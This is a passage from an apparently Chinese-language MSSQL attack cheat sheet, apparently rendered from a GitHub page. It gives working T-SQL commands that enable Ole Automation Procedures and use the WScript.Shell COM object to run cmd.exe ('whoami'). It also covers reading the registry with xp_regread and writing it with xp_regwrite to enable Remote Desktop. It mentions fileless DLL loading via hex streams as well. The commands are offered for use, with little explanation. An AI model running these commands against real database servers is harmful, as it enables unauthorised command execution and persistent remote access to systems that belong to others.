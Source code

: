    这个方法还可以通过16进制文件流的方式导入DLL，这样可以不用文件落地,参考

   []: http://sekirkity.com/requested-command-execution-with-sqli-via-seeclrly/

   

5. com对象

   开启

   ```
   EXEC sp_configure 'Ole Automation Procedures',1
   ```

   执行

   ```
   declare @dbapp int,@exec int,@text int,@str varchar(8000);
   exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@dbapp output;
    
   --exec sp_oamethod @dpapp,'run',null,'calc.exe';
    
   exec sp_oamethod @dbapp,'exec',@exec output,'C:\\windows\\system32\\cmd.exe /c whoami';
   exec sp_oamethod @exec, 'StdOut', @text out;
   exec sp_oamethod @text, 'readall', @str out
   select @str
   ```

   

## 注册表

1. 读注册表

   ```
   EXEC xp_regread 'HKEY_CURRENT_USER','Control Panel\International','sCountry'
   ```

   ![](./media/regread.png)

2. 写注册表

   ```
   master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0; #开启远程桌面
   ```

3. 删除操作
